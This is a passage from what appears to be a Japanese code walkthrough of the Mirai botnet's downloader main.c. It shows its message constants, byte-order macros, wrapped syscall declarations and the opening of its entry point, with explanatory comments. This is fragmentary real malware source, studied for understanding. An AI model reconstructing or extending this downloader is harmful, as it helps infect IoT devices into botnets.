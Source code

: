 :::details main.cの続きを表示する
```c
#define EXEC_MSG            "MIRAI\n"
#define EXEC_MSG_LEN        6

#define DOWNLOAD_MSG        "FIN\n"
#define DOWNLOAD_MSG_LEN    4

#define STDIN   0
#define STDOUT  1
#define STDERR  2

#if BYTE_ORDER == BIG_ENDIAN // ビッグエンディアンとリトルエンディアンの時で処理を分岐させています。TCP/IPのようなネットワーク間でデータを送受信する際にエンディアンの違いを吸収するために使用されるようです。
#define HTONS(n) (n)
#define HTONL(n) (n)
#elif BYTE_ORDER == LITTLE_ENDIAN
#define HTONS(n) (((((unsigned short)(n) & 0xff)) << 8) | (((unsigned short)(n) & 0xff00) >> 8))
#define HTONL(n) (((((unsigned long)(n) & 0xff)) << 24) | \
                  ((((unsigned long)(n) & 0xff00)) << 8) | \
                  ((((unsigned long)(n) & 0xff0000)) >> 8) | \
                  ((((unsigned long)(n) & 0xff000000)) >> 24))
#else
#error "Fix byteorder"
#endif

#ifdef __ARM_EABI__
#define SCN(n) ((n) & 0xfffff)
#else
#define SCN(n) (n)
#endif

inline void run(void);
int sstrlen(char *);
unsigned int utils_inet_addr(unsigned char, unsigned char, unsigned char, unsigned char);

/* stdlib calls */
int xsocket(int, int, int);
int xwrite(int, void *, int);
int xread(int, void *, int);
int xconnect(int, struct sockaddr_in *, int);
int xopen(char *, int, int);
int xclose(int);
void x__exit(int);

#define socket xsocket
#define write xwrite
#define read xread
#define connect xconnect
#define open xopen
#define close xclose
#define __exit x__exit

#ifdef DEBUG
/*
void xprintf(char *str)
{
    write(1, str, sstrlen(str));
}
#define printf xprintf
*/
#endif

void __start(void) // main.cのエントリーポイント
```